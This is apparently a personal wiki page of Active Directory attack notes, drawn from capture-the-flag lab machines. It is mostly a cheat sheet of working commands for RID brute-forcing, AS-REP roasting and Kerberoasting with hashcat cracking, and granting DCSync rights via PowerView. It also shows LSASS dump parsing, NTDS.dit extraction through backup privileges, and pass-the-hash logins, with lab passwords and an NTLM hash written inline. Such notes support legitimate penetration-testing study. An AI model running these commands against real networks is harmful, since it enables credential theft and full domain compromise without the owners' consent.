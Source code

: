 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Active Directory Enumeration
[Password Spraying via Sprayhound](https://github.com/Hackndo/sprayhound)
  - Checks badpwdcount attribute only in the domain policy

[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)

**Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
```
nxc smb 10.10.10.192 -u 'guest' -p '' --rid-brute > sid.txt
cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/BLACKFIELD\\//' > users.txt
GetNPUsers.py BLACKFIELD/ -usersfile users.txt -format hashcat
hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
```

[LDAPSearch Cheat Sheet](https://notes.benheater.com/books/active-directory/page/ldapsearch)
```
Domain Contexts: ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts
Search Users: ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)'
```

[LDAP Domain Dump via Linux](https://github.com/dirkjanm/ldapdomaindump)

Useful if Bloodhound.py isn't working as intended.

[BloodHound CE](https://github.com/SpecterOps/BloodHound)

**Installation via Docker:** [BloodHound Community Edition](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose)
```
curl -L https://ghst.ly/getbhce | docker compose -f - up
```

[BloodHound.py for Linux](https://github.com/dirkjanm/BloodHound.py)
```
python3 bloodhound.py -u "support" -p "#00^BlackKnight" -c ALL -d BLACKFIELD.local -ns 10.10.10.192 -dc dc01.BLACKFIELD.local
```

# Active Directory Exploitation
[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)

[WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)

[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)

[NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)

[DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)

**With PowerView**:
```
whoami /all
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
net group "Exchange Windows Permissions" /add svc-alfresco
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
Get-DomainUser -Identity svc-alfresco
Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
```

[SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)

[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

**Requires:** Domain Credentials

**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets

`GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100`

## Lateral Movement
[ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

**Requires:** `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` on Object

```
net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)
```

## Credential Dumping
[LSASS Dump - lsass.DMP](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)

**Requires:** Credential Guard to be disabled.

```
Dumping LSASS via Linux: https://medium.com/@offsecdeer/dumping-lsass-remotely-from-linux-efc47391e56d
```

[Pypykatz - Mimikatz for Linux](https://github.com/skelsec/pypykatz)

**Requires:** A DMP file containing credentials extracted to our Linux machine.
```
pypykatz lsa minidump lsass.DMP
```

## Domain Escalation
[Backup Operator - Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)
```
whoami /all (SeBackupPrivilege Enabled)

diskshadow /s backup.txt
robocopy /b E:\Windows\ntds . ntds.dit (NTDS file)
reg save hklm\system c:\temp\system.bak (System Hive keys)

## Other Resources
https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58
```

-----------------------------------------------------------------------

## Active Directory Tools
[NetExec](https://github.com/Pennyw0rth/NetExec)
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh (install Rust)
source $HOME/.cargo/env
pipx install git+https://github.com/Pennyw0rth/NetExec
```

[PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
```. .\powerview.ps1```

**NSE**
```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```

**SMB**
Enum4Linux
SMBMap
smbclient
smbclient.py (Impacket)
[NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)
[SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)

**WinRM**
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
```
evil-winrm -i 10.10.10.192 -u "svc_backup" -H "9658d1d1dcd9250115e2205d9f48400d"
```

[Impacket]()
```
python3 -m pipx install impacket
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
```

## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
 - [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
